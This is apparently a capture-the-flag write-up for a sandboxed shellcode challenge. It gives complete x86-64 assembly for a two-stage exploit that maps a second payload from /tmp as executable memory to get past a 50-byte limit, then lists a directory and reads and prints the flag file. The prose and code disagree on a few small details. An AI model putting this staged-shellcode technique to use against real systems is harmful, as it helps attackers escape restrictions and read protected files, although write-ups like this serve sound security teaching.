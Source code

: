 **Challenge Overview**

In this challenge, the user is prompted by the program to enter shellcode that
the program will then execute. There are several aspects of the challenge that
slightly increase the complexity. First of all, the system calls that we can
use in our shellcode are limited to a restricted subset, and therefore our shellcode
is executing within a sandbox. Secondly, the size of the shellcode that the program
will accept is limited to 50 bytes. A third aspect of the challenge increases the
effectiveness of the second limitation, which is that the file with the flag has
a new randoms sequence of characters appended to it everytime we run the program.
Thus, our shellcode cannot be as simple as opening a known filename and printing
its contents to standard output; we must open the directory and get the filename
from the directory entry first. This therefore means our shellcode will not fit within
a 50 byte limit.

Below is the shell script that is run everytime the sandbox program is run. As can be
seen, a random sequence of bytes is taken from `/dev/urandom` and trimmed to output
only characters in a given subset, with 32 such characters being appended to the flag
filename:

```
#!/bin/sh

PATH="/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin"
PATH_TO_CHALLENGE="$(dirname ${0})"

cd $PATH_TO_CHALLENGE

NEW_RANDOM_ID=$(tr -dc A-Za-z0-9 < /dev/urandom | head -c 32)

chmod 700 flag/
mv passwd/.flag_* "flag/.flag_${NEW_RANDOM_ID}"
chmod 400 flag/.flag_*
chmod 500 flag/

timeout -k 2m 1m ./challenge-sandbox ./vuln
```

The sandbox that will execute our code has limited our system calls to a subset,
which are listed below:

`read, write, exit, brk, mmap, access, open, fstat, close, mprotect,
munmap, arch_prctl, exit_group, getdents`

In order to complete the challenge, we must divide our shellcode into
two phases. The second phase of our shellcode will be kept in a file
that we put into some private directory we create in /tmp. That leaves
the first phase, which becomes as simply as creating a memory mapped
region into which the contents of our known file will be read. We then
change the permissions of this memory mapped region to be executable
and then use a JMP instruction to jump to the start of this region, thus
executing the second phase of our shellcode. Therefore, we have bypassed
the restriction of 50 bytes and our shellcode can be as long as we wish.

All of this uses only the restricted subset of system calls in the sandbox.

**Phase I of our exploit**

  - _Open file containing shellcode for phase two_
  - _Map the contents into memory, with the permission set
    (PROT_READ|PROT_WRITE|PROT_EXEC)_
  - _Pass execution to it_

The total size of this part of the exploit is 49 bytes, thus within the
size limitation of the sandbox.

**Phase II of our exploit**

  - _Open the "flag" directory (pass O_DIRECTORY flag to open())_
  - _Read the directory entries onto the stack using sys_dirents_
  - _Push "flag/" onto the stack and then append the obtained filename to it_
  - _Open the flag file_
  - _Read contents onto stack_
  - _Print contents to stdout_

The size of this part of the exploit is 161 bytes, itself well over the size
limitation. The total size of the exploit is therefore 210 bytes.


**Assembly code for phase I of the exploit**

```
.section .rodata

.equ SYS_MMAP,9
.equ PROT,0x7
.equ FLAGS,0x2

.globl _start

_start:
	mov $0x63732f706d742f,%rdi
	push %rdi
	mov %rsp,%rdi
	push $2
	pop %rsi
	push $2
	pop %rax
	syscall
	mov %rax,%r8
	xor %rdi,%rdi
	movb $131,%sil
	push $0
	pop %r9
	push $PROT
	pop %rdx
	push $FLAGS
	pop %r10
	push $SYS_MMAP
	pop %rax
	syscall
	call *%rax
```
  
**Assembly code for part II of the exploit**

```
.section .rodata

.equ SYS_READ,0
.equ SYS_WRITE,1
.equ SYS_OPEN,2
.equ SYS_EXIT,60
.equ SYS_GETDENTS,78
.equ O_DIRECTORY,0200000
.equ OFLAGS,0x242

.globl _start

_start:
	mov $0x67616c66,%rdi
	push %rdi
	mov %rsp,%rdi
	push $O_DIRECTORY
	pop %rsi
	push $SYS_OPEN
	pop %rax
	syscall
	mov %rax,%rdi
	mov %rsp,%rsi
	mov $255,%dl
	push $SYS_GETDENTS
	pop %rax
	syscall

	add $42,%rsp
	mov %rsp,%rsi
	sub $0x200,%rsp
	push $42
	pop %rcx
	mov $0x2f67616c66,%rdi
	push %rdi
	add $7,%rsp
	mov %rsp,%rdi
.mloop:
	movb (%rsi),%al
	movb %al,(%rdi)
	inc %rsi
	inc %rdi
	dec %rcx
	jne .mloop

	mov $0,%rax
	movb %al,(%rdi)

	mov $1,%rsi
	dec %rsi
	mov $2,%rax
	sub $7,%rsp
	mov %rsp,%rdi
	syscall
	mov %rax,%rdi
	sub $0x100,%rsp
	mov %rsp,%rsi
	push $64
	pop %rdx
	push $SYS_READ
	pop %rax
	syscall

	push $1
	pop %rdi
	push $0x800
	pop %rdx
	mov %rsp,%rsi
	push $SYS_WRITE
	pop %rax
	syscall
```

The shellcode for phase II of the exploit was stored in /tmp/sc. A longer and less easily guessed
filename could not be used due to the size limitation (however, the file only existed for a very
short period of time and then shredded). This value was moved as an immediate value (0x2f746d702f7363)
into the %rdi register and then pushed onto the stack. The stack address was then passed as a pointer
to the open function. The system call mmap() was then called with the file descriptor of this open
file as argument, as well as the flags necessary to make the memory mapped region executable. The
address of this was return in %rax, and thus immediately after executing this system call, we do a
`.jmp *%rax', which passes execution to phase II of our exploit.
